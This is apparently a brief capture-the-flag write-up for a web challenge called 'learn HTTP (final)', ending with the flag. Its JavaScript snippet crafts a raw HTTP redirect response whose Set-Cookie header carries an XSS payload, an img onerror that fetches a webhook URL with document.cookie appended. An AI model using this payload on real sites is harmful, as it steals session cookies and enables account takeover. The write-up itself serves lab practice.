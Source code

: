 # web/learn HTTP (final)

## get sample of jwt
```js
web_url = "http://localhost:5000"
webhook = "??"
xss = `<img src=x onerror="fetch('${webhook}?'+document.cookie)" />`
build = (p) => "HTTP/1.1 302 Found\r\nLocation: "+web_url+"/learn\r\nSet-Cookie: name="+xss+"ello;path=/\r\nContent-Length: "+p.length+"\r\n\r\n"+p
payload = build("")
```

## After this, do the same thing as a previous challenge

`pearl{7ime_to_ch4ng3_mY_S3cr3ts}`